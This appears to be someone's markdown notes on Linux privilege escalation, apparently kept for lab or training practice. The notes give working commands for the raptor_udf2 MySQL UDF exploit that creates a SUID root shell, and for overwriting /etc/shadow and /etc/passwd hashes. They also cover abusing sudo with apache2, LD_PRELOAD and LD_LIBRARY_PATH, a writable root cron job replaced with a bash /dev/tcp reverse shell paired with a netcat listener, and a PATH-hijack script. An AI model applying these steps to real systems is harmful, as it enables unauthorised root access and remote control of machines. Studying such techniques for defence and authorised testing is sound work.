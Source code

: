 # Linux priv esculation

## MySQL exploit

This exploit works if MySQL is run in root mode.

Using this exploit (https://www.exploit-db.com/exploits/1518)

Complie the code using gcc:

~~~ 
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
~~~

Open MySQL and create a user defined function that runs system commands.

This creates a SUID in the tmp that when run esculates priviledge. 

~~~
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
~~~
 
## Readable /etc/shadow

Readable /etc/shadowcan copied and cracked by john

## Writeable /etc/shadow

Generate a new password and replace the root password

~~~
mkpasswd -m sha-512 <password here>

Put :7::: at the end
~~~

## Writable /etc/passwd file

Generate a new password hash:

~~~
openssl passwd <newpassword>
~~~

Then in the /etc/passwd file change root password hash (it will be an x).


## Sudo escape sequencies.

~~~
sudo -l 
~~~

Then use GTFOBins (https://gtfobins.github.io) to look for sudo privesc.

If apache2 can be used in sudo then run:

~~~
sudo apache2 -f /etc/shadow
~~~

This gives the password sha-512 for root.

## sudo enviornmental variables.

Sudo can be configured to inherit environment variables from the user's environment.

~~~
sudo -l
--------------------------------------------------------------
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH
--------------------------------------------------------------
~~~

- LD_PRELOAD is an enviornmental variable that loads a shared object before anything else.
- LD_LIBRARY_PATH is an enviornmental variable that a provides a lists of dirs where shared librarys 
  are searched for.

### Abusing sudo enviornmental varaiables
 
Create a shared object (one that will spawn a root shell).

~~~
gcc -fPIC -shared -nostartfiles -o /tmp/exploit_file.so exploit_file.c
~~~

Change the LD_PRELOAD to the file while running a programme in sudo.

~~~
sudo LD_PRELOAD=/tmp/preload.so <programme>
~~~

This will then run the shared object.

**OR**

Use a shared sudo enviornment (LD_LIBRARY_PATH)

Find shared library for a programme

~~~
ldd /usr/sbin/apache2
~~~

Create a shared object (that gives root access).

~~~
gcc -o /tmp/exploit_file.so -shared -fPIC exploit_file.c
~~~

Then run the programme

~~~
sudo LD_LIBRARY_PATH=/tmp apache2
~~~

https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/

## CronJobs File permission

Change a cronjob that is running by root user to gain a shell.

First view cronjobs
~~~
cat /etc/crontab
~~~

Then check if any are writeable

~~~
ls -l (cronjob from etc/crontab list)
~~~

Replace content of one of them with reverse shell

~~~
#!/bin/bash
bash -i >& /dev/tcp/<ip address of host machine>/4444 0>&1
~~~

Have a netcat listener 

~~~
nc -lvnp 4444
~~~

and a root shell should spawn!!

## Cronjob Enivornmental Variables

Can change a script (run by root) using cronjob to activate another script giving us root access.

Example

In this example the path variable leads to /home/user. We can exploit this by putting a script
here so it is excuted before the cronjob looks further for the actual script.

~~~
cronjob is overwrite.sh

vi ~/home/user/overwrite.sh

#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash

chmod +x /home/user/overwrite.sh

/tmp/rootbash -p
~~~

## Cronjobs wildcards.


